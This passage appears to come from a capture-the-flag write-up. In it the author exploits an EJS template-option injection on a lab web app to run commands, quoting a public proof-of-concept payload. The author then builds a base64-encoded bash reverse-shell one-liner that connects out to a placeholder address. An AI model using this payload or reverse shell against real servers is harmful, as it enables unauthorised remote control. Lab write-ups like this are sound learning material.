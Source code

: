 I fired up Burp Suite and take a closer look to the request and response when changing a password.
After playing around for a half hour or more and also begin to doubt that this is the way in, I have accidentally send the request without the `password` parameter.
I was trying to see if there will be some kind of error if sending malformed parameters and yes, the response shows a traceback error message:
{{<figure-dynamic
light-src="/images/whiterose/light/ejs.png"
dark-src="/images/whiterose/dark/ejs.png"
>}}
This `ejs` stands for embedded javascript. When searching for "settings.ejs vulnerability" the [first github link](https://github.com/mde/ejs/issues/735) shows a possible exploit!
The PoC of the GitHub user [wh0amitz](https://github.com/wh0amitz) looks like this:

```
?name=John&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('calc');
```


But instead of `calc` I choose a better fit for out context and executed the `ls` command:

{{<figure-dynamic
light-src="/images/whiterose/light/ejsls.png"
dark-src="/images/whiterose/dark/ejsls.png"
>}}

Yes! We are able to execute commands!
By executing the `id` command, it shows that we are executing those commands as `web` user.

## Reverse Shell

The next step was to get a reverse shell from that. And ye, you could retriev the user flag from this point on, but I decided to wait for it.

Just for fun.

Now, the reverse shell will be a simple bash reverse shell command.
To create reverse shells, there is a website named [Reverse Shell Generator](https://www.revshells.com/) which supports any executable and language to create revshells and also support encoding of the command.
But when I put in the command as it is, it will not run. Maybe because of some escaping error in the string itself.
Good that the website support encoding the command. But even URL Encoding doesen't solve the problem.

Another try will be to send base64. This could be a solution, but the `execSync` function will not decode it back to a string and execute the code for us, we have to decode it on the target itself and run it afterwards.
Should be easy when using shell oneliner:

```shell
bash -c "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzAgMD4mMQ==| base64 -d | bash"
```


This command will execute `echo` which will print the base64 encoded command, but this will be piped to the `base64` command, which decode it and then the decoded string will be piped to the `bash` command, which will run the string.
For me this doesn't work at first, because instead of `sh` I decided to use `bash` to run the reverse shell. When using `sh` it works as expected.
Just to be sure, I choose the absolute path `/bin/bash` instead of just `bash`, this will create a connection but stop it immediately.
So back to `sh` then.
